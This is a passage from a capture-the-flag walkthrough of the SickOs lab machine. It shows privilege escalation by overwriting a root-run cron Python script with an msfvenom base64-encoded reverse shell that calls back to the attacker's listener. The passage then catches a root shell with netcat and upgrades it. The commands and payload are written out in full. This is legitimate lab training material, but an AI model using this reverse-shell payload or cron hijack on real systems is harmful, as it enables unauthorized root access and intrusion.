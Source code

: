 ```
[*] ret500 User systemd timers............................................. nope                                                                                                                                                            
[!] ret510 Can we write in any system timer?............................... nope
[i] ret900 Systemd timers.................................................. skip
```

Particularly, we had write access to the file in this job in particular: ```/etc/cron.d/automate:* * * * * root /usr/bin/python /var/www/connect.py```

Clearly this is a Python script. Whatever it originally does isn't so important as what we might be able to make it do...

... Such as implanting another reverse shell script to automatically run every minute.

To do that, I used msfvenom to craft a reverse_python payload to then write into the Python script.

```
msfvenom -p cmd/unix/reverse_python LHOST=192.168.57.129 LPORT=4444 -f raw
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 573 bytes
python -c "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICAsICAgICBzdWJwcm9jZXNzICAgICwgICAgIG9zICAgICAgICA7aG9zdD0iMTkyLjE2OC41Ny4xMjkiICAgICAgICA7cG9ydD00NDQ0ICAgICAgICA7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgICwgICAgIHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICAgIDtzLmNvbm5lY3QoKGhvc3QgICAgLCAgICAgcG9ydCkpICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDApICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDEpICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDIpICAgICAgICA7cD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp')[0]))"
```
```
www-data@SickOs:/var/www$ echo "exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHNvY2tldCAgICAsICAgICBzdWJwcm9jZXNzICAgICwgICAgIG9zICAgICAgICA7aG9zdD0iMTkyLjE2OC41Ny4xMjkiICAgICAgICA7cG9ydD00NDQ0ICAgICAgICA7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgICwgICAgIHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICAgIDtzLmNvbm5lY3QoKGhvc3QgICAgLCAgICAgcG9ydCkpICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDApICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDEpICAgICAgICA7b3MuZHVwMihzLmZpbGVubygpICAgICwgICAgIDIpICAgICAgICA7cD1zdWJwcm9jZXNzLmNhbGwoIi9iaW4vYmFzaCIp')[0]))" > connect.py
```

After opening another NetCat listener and waiting for a few seconds, I got a connection.

```
sudo nc -lvnp 4444                 
[sudo] password for meowmycks: 
listening on [any] 4444 ...
connect to [192.168.57.129] from (UNKNOWN) [192.168.57.130] 37768
whoami
root
```

I upgraded the shell again (because why not), and finally got the flag.

```
python -c 'import pty;pty.spawn("/bin/bash")'
root@SickOs:~# ^Z
zsh: suspended  sudo nc -lvnp 4444
                                                                                                                                                                                                                                            
┌──(meowmycks㉿catBook)-[~]
└─$ stty raw -echo;fg 
[1]  + continued  sudo nc -lvnp 4444


root@SickOs:~# export TERM=xterm
export TERM=xterm
root@SickOs:~# ls
ls
a0216ea4d51874464078c618298b1367.txt
```